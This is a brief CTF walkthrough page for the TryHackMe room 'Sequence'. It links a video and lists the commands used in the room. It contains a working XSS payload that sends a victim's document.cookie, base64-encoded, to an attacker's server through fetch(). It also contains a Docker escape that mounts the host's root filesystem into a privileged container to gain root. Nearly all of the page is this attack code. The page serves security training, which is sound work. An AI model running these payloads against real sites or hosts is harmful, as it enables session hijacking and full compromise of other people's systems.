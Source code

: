 ## TryHackMe room Sequence https://tryhackme.com/room/sequence

### TryHackMe Sequence YouTube Video Walk Through: 

[TryHackMe Sequence - Full Walkthrough 2025](https://youtu.be/looyfVGX_yU)

**Below commands used on TryHackMe room Sequence YouTube video walk through:**

### Stealing mod cookie and send it to python server
```
<img src=x onerror="fetch('http://10.10.143.146:8000/?ce='+btoa(document.cookie))">
```
### root docker escape:

```
docker ps
docker run -v /:/host --privileged -it phpvulnerable chroot /host
```
